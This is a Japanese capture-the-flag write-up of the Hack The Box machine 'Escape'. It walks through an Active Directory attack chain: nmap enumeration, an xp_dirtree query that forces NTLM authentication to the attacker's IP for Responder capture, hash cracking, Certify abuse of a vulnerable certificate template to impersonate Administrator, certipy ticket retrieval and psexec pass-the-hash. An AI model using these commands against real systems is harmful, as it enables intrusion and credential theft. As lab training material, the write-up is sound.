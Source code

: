 ## Escape

```
Machine IP: 10.10.11.202
```
今回はWindows OSが使われている問題。  

nmapの結果
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-12 09:07:17Z)
123/udp open  ntp
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:19+00:00; +8h00m08s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server  15.00.2000.00
| ms-sql-ntlm-info: 
|   Target_Name: sequel
|   NetBIOS_Domain_Name: sequel
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sequel.htb
|   DNS_Computer_Name: dc.sequel.htb
|   DNS_Tree_Name: sequel.htb
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-11T12:37:56
|_Not valid after:  2053-04-11T12:37:56
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:19+00:00; +8h00m08s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/12%Time=64360441%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m07s, deviation: 0s, median: 8h00m07s
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-12T09:09:39
|_  start_date: N/A
```

注目するべきは、KerberosやSMB、LDAPが動いていること。  
`dc.sequel.htb`ドメインが判明したこと。  
Microsoft SQL Serverが動いていること。  

53番のDNSからは何も得られなかった。  

`enum4linux`を使用し、SMBなどから情報を列挙してみるがこれといった情報は得られなかった。  

![](images/escape/2.png)


`smbclient`を使用しSMBサーバーに接続してみると、  
共有フォルダを取得することができた。  
![](images/escape/3.png)


`Public`フォルダに接続してみると、  
「SQL Server Procedures.pdf」というpdfファイルが置かれている。  
![](images/escape/4.png)

ダウンロードして見てみると、  
SQLサーバーへの資格情報らしきものが見つかる。  
![](images/escape/6.png)


SQLサーバーへの資格情報を入手したので、  
Impacketのmssqlclient.pyを使用して接続を行う。  
![](images/escape/9.png)

Microsoft SQL Serverへの接続が成功したので、  
Responderを使用してNTLMハッシュ値の入手を行う。  

SQLクエリで以下を実行する。  
```
EXEC xp_dirtree '\\10.10.14.3\hoge'
```

これは、指定されたパスにあるファイルのリストを取得するために使用するクエリなのだが、接続先に私のIPを指定している。  

ここで、Responderを使用してSMBからの認証情報を中間者攻撃で入手する。  

![](images/escape/10.png)


ハッシュ値を入手できたので、John The Ripperで解読を行う。  
![](images/escape/11.png)

ハッシュ値から資格情報を入手。  
Evil-WinRMを使用し、接続を行う。  
![](images/escape/12.png)


ルートディレクトリに`SQLServer`というディレクトリがある。  
`Logs`ディレクトリの中に`ERRORLOG.BAK`というログファイルがある。  
![](images/escape/13.png)![](images/escape/14.png)


`type`コマンドで見てみる。  
![](images/escape/15.png)

どうやら間違えてユーザー名入力にパスワードを入力してしまったログが見つかる。  


新たな資格情報を入手できたので、  
Evil-WinRMで接続する。  
![](images/escape/16.png)


Documentsフォルダに色々ファイルが見つかった。  
`winPEASx64.exe`は他の攻略者が置いたものかな？  
![](images/escape/17.png)


中に`Certify.exe`という実行ファイルがある。  
調べると、デジタル署名や証明書の作成と管理を行うコマンドラインツールらしい。  

引数に何も与えず実行。  
![](images/escape/18.png)

使用方法がずらっとでてくる。  

まずは以下を実行してみる。  
脆弱/悪用可能な証明書テンプレートを探してくれるらしい。  
![](images/escape/19.png)

```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
```

![](images/escape/20.png)

`CA Name`が`dc.sequel.htb\sequel-DC-CA`、`Template Name`が`UserAuthentication`という情報を取得できた。  


次に以下を実行する。  
新しい証明書を要求する。ここで管理者権限のAdministratorで要求する。  
![](images/escape/21.png)

```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

![](images/escape/22.png)


デジタル証明書を入手する。  
最後に、  
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

というopensslのコマンド構文も表示される。  

入手した証明書をファイルにコピペし、  
opensslを実行。  

`cert.pfx`が出力される。  

証明書があるので、`Certipy`を使用してKerberos認証にてTGT(Ticket Granting Ticket)を発行する。  
```
certipy auth -pfx cert.pfx -username Administrator -dc-ip 10.10.11.202 -domain sequel.htb
```

![](images/escape/23.png)

ハッシュを入手できたので、  
`psexec.py`を使用してリモートコマンドを実行できるようにする。  
psexec.pyもimpacketの一部であり、ユーザー名とパスワードのハッシュ値であるNTLMハッシュを使用する。  
![](images/escape/24.png)


管理者権限でコマンドを打てるようになり、rootフラグゲット。  

